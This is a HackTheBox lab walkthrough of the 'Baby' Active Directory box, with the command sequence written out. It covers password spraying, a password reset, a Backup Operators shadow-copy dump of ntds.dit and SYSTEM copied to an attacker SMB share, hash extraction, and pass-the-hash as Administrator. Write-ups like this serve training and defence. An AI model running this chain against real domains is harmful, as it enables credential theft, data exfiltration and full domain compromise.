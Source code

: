 # [HackTheBox - Baby](https://app.hackthebox.com/machines/Baby)
![c6f135fd23e08499dbcf0bcab8d08564.png](/_resources/c6f135fd23e08499dbcf0bcab8d08564.png)
[toc]
***
## Abstract
Baby is a vulnlab machine imported to HackTheBox as a easy Windows Active Directory box, I started with network enumeration with nmap, revealing this machine is a domain controller and no extra service running on this machine.

On the enumeration phase, I found that null session can be used to conduct LDAP search and retrieve a list of user and also the initial password from user description. however there is one user that could not be pull with common user pull method but searching thoughly in the LDAP result will reveal about this user. 

Using password from user description and the hidden user, revealing that we can change password of this user and gain foothold on the machine.

The user that used for footholding is in Backup Operators group which we can backup ntds.dit along with SYSTEM registry hive and dump hashes of all users in the domain using secretdump and then we can use Administrator NTLM hash to login to the machine and root the box.

## Enumeration

Starting with nmap port scanning and we can see that there are multiple ports opened including LDAP and Kerberos which mean this machine is a domain controller. 
```
nmap $IP
```
![26b7efdc620353a2086c3d852c4da222.png](/_resources/26b7efdc620353a2086c3d852c4da222.png)

I rescanned again with `-sCV` flag for service enumeration and nmap script engine which reveals domain and hostname that we can add to hosts file but other information are not too special at this point  
![ff14d3ebf97cfed092a71494342ed65e.png](/_resources/ff14d3ebf97cfed092a71494342ed65e.png)

After adding domain to hosts file. I started enumerate SMB with NetExec tool and we can see that null session could not be used to retrieve anything from  
![f1d4e9c963c1fed550ace9ded12fa705.png](/_resources/f1d4e9c963c1fed550ace9ded12fa705.png)

But after changing protocol to LDAP, we can see that we can pull user lists from the domain and we can also see that we also have a password from user description and it telling us that the initial password of users on this domain is "BabyStart123!" and will likely to be changed after user logon.
```
nxc ldap baby.vl -u '' -p '' --users
```
![2db204965f7ff0c0c07d0b69b3f3c891.png](/_resources/2db204965f7ff0c0c07d0b69b3f3c891.png)

I created a userlist with NetExec and then password spraying all users from this user list but no hit which mean all users already changed their password and it seem like I missed something I shouldn't.
```
nxc ldap baby.vl -u '' -p '' --users-export baby_users.txt
nxc smb baby.vl -u baby_users.txt -p 'BabyStart123!'
```
![2ac46c2fab4c297d6944f279690dca56.png](/_resources/2ac46c2fab4c297d6944f279690dca56.png)
![81e4fe894bd107521a7ac680c1790ab4.png](/_resources/81e4fe894bd107521a7ac680c1790ab4.png)

I used a simple LDAP search to search for something I might have missed and sure enough, there is one user that could not be pulled with my netexec 
```
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" | grep member:
```
![05e5906012ebbd05e0e9677198203c52.png](/_resources/05e5906012ebbd05e0e9677198203c52.png)

I tried to find the reason about it and 0xdf gave on on his write-up "That’s because this user doesn’t have any data associated with them" which is really interesting
![985b8b827cb9d296ec8fbddde273a42b.png](/_resources/985b8b827cb9d296ec8fbddde273a42b.png)

I dug into the [source code](https://github.com/Pennyw0rth/NetExec/blob/f981215d776d56234d51f95ac2e48f11e149fe31/nxc/protocols/ldap.py#L740) of NetExec when using ldap to parse user list which reveals that NetExec will retrieve only object with `sAMAccountType` = 805306368 (normal user accounts) and "Caroline.Robinson" does not have this value so it didn't make to the list.
![53e6e1e570ed1d906995202caa67ec33.png](/_resources/53e6e1e570ed1d906995202caa67ec33.png)

## Initial Foothold by Changing password of Caroline.Robinson

I used the credential found on user description on this user and we can see that we can change password of this user and continue our operation.
```
nxc smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!'
```
![6609dadf07b72af65f34ae4ebb95de21.png](/_resources/6609dadf07b72af65f34ae4ebb95de21.png)

I used uv to run latest version of NetExec from Github to use change-password module since NetExec on Kali linux is not the latest version and it does not have this module. (you can use other tool to change password of this user)
```
uv run nxc smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!' -M change-password -o NEWPASS=Password123
```
![0eef906aa335b4004f160937bb3d3f2a.png](/_resources/0eef906aa335b4004f160937bb3d3f2a.png)

Now we can use this account to eneumerate further but nothing too special on share here.
![d184b24b122d32a5e684378c0e132b6c.png](/_resources/d184b24b122d32a5e684378c0e132b6c.png)

We can use this user to gain a foothold as we can see "Pwn3d!" message from NetExec with WinRM protocol 
```
nxc winrm baby.vl -u 'Caroline.Robinson' -p Password123
```
![2316cf50ce55d71714b1dbc3a8672b7a.png](/_resources/2316cf50ce55d71714b1dbc3a8672b7a.png)

Using [evil-winrm](https://github.com/Hackplayers/evil-winrm), we can gain a foothold and loot user flag located on the desktop of this user.
![495cb95b3a45b41f28535d9e863c6a69.png](/_resources/495cb95b3a45b41f28535d9e863c6a69.png)

## Privilege Escalation with Backup Operators group

After gaining foothold, I used whoami command to list information about current user to find a low-hanging fruit and we can see that this user is a member of Backup Operators group which can backup (SeBackupPrivilege) and restore (SeRestorePrivilege) file on this machine.
```
whoami /all
```
![86434904fbd98b5f38ef2b2c6fa52047.png](/_resources/86434904fbd98b5f38ef2b2c6fa52047.png)

Since this is the domain controller, I will need to create a backup of ntds.dit which is active directory database and SYSTEM registry hive to dump hashes from both of these files, SYSTEM registry can be retrieve with just 1-2 command but on the other hand. I need to create a shadow copy so I can safely retrieve ntds.dit file.

I will use diskshadow to create shadow copy or C drive but first, I need to create a script to automate this first and here in the script
```
set verbose on   
set metadata C:\Windows\Temp\meta.cab   
set context clientaccessible   
set context persistent   
begin backup   
add volume C: alias wowza   
create   
expose %wowza% E:   
end backup
```

The script will create a shadow copy snapshot of C drive and map to E drive and thats it but since this script was created on my Kali Linux, I need to convert Unix format (Line Feed) to DOS format (carriage return + Line feed) which will make this script able to run on Windows.
```
unix2dos diskshadow.txt
```
![28cabc9ae7f5843c32bd774114fb0717.png](/_resources/28cabc9ae7f5843c32bd774114fb0717.png)

Next, I uploaded the script on my winrm session and execute it. no error and now we are ready for the file transfer.
```
upload diskshadow.txt
diskshadow /s diskshadow.txt
```
![ce09650189645b3ef5b09f67aa5bdea4.png](/_resources/ce09650189645b3ef5b09f67aa5bdea4.png)
![2c89cee29b28fb4bd2358de6f21a5210.png](/_resources/2c89cee29b28fb4bd2358de6f21a5210.png)

Since SYSTEM hive and ntds.dit files are quite large so, I opened my netshare share and copy both files to my Kali Linux. This way is much faster than download function in evil-winrm. first I created a backup of SYSTEM hive with reg save command.
```
reg save hklm\system c:\system
cp system.hive \\10.10.14.24\debug\
```
![1b2ada0a9d181e68400962ee83cc16a9.png](/_resources/1b2ada0a9d181e68400962ee83cc16a9.png)
![985f2bfdcd10aa66d3ae23d309d8a909.png](/_resources/985f2bfdcd10aa66d3ae23d309d8a909.png)

Next is ntds.dit file and now we are ready to dump all the hashes inside both files.
```
robocopy /b E:\windows\ntds . ntds.dit
cp ntds.dit \\10.10.14.24\debug\
```
![d512b652ff079e0c93a572daca4eb8c3.png](/_resources/d512b652ff079e0c93a572daca4eb8c3.png)

The tool that can be used to dump hashes is secretsdump from impacket and now we can get NTLM hash of Administrator account and gain access to target system via pass-the-hash technique.
```
impacket-secretsdump -ntds ntds.dit -system system.hive local
```
![6fc8fe601dbfd6152a5c6f96fc7463d1.png](/_resources/6fc8fe601dbfd6152a5c6f96fc7463d1.png)

Login as Administrator and loot the flag, Now we are done :D
```
evil-winrm -i baby.vl -u 'Administrator' -H ee4457ae59f1e3fbd764e33d9cef123d
```
![772a9088ed368afeb8025d4b47c76b7d.png](/_resources/772a9088ed368afeb8025d4b47c76b7d.png)

https://labs.hackthebox.com/achievement/machine/1438364/739
***